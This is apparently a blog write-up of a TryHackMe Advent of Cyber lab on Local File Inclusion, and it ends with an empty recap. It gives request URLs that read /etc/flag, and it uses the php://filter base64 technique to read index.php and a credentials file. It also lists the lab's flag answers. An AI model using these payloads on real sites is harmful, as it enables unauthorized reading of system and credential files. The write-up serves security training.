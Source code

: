 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 6 - Patch Management is Hard"
date:   2021-12-13 11:00:00 +1000
excerpt: Learning about Local File Inclusion (LFI) Vulnerabilities. 
---
```


This is a write up for the Day 6 - Patch Management is Hard challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### Deploy the attached VM and look around. What is the entry point for our web application?

When visiting the homepage there is a text while which is loaded via a GET parameter.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_1.png">

> Answer: **err**

### Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

Changing the parameter to /etc/flag reveals the flag.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=/etc/flag
```

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_2.png">

> Answer: **THM{d29e08941cf7fe41df55f1a7da6c4c06}**

### Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?

The following URL will reveal the base64 encoded version of index.php.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=index.php
```

Putting the base64 encoded content in a base64 decoder reveals the flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_3.png">

> Answer: **THM{791d43d46018a0d89361dbf60d5d9eb8}**

### Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

The file path of the credentials is `./includes/creds.php`.

The following URL returns the credentials.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=/includes/creds.php
```

### Recap

In this task we learnt:
 * 
 